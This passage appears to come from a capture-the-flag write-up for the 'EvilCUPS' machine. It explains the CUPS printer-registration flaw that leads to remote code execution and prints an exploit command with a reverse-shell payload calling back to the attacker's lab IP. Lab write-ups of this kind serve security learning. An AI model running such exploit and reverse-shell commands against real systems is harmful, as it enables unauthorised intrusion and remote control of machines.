 We get an output.  

<br/> 
<img src="/img/EvilCUPS_Screenshots/Pasted image 20241226000318.png" alt="1" style="width:700px; height:auto;">
<br/>

Looking for `exploits`, we found a recent  Blog published by `EvilSocket` [here](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/) Explaining in details the vulnerability. This leads to `RCE`.    

In short, any system running `CUPS`, can be queried a `UDP` packet of the format `0 3 http://<ATTACKER-IP>:<PORT>/printers/whatever`  on port `631`. The server will respond to the `attacker IP` thinking this is a printer. The printer will be setup and can be queried for print jobs. Crafting a malicious `script` to be triggered whenever the malicious printer is asked for a print job leading to `RCE`.    

We can test this by sending this packet to the machine and waiting for a reply.  

<br/> 
<img src="/img/EvilCUPS_Screenshots/Pasted image 20241226015651.png" alt="1" style="width:700px; height:auto;">
<br/>

We can see a successful reply. We can now try to `exploit` the vulnerability.   

Using this [POC](https://github.com/IppSec/evil-cups/blob/main/evilcups.py) We can trigger the vulnerability.   

```bash
python3 exp.py 10.10.16.5 10.10.11.40 "bash -c 'sh -i >& /dev/tcp/10.10.16.5/5555 0>&1'"
```

We get an output.  

<br/> 
<img src="/img/EvilCUPS_Screenshots/Pasted image 20241226021841.png" alt="1" style="width:700px; height:auto;">
<br/>
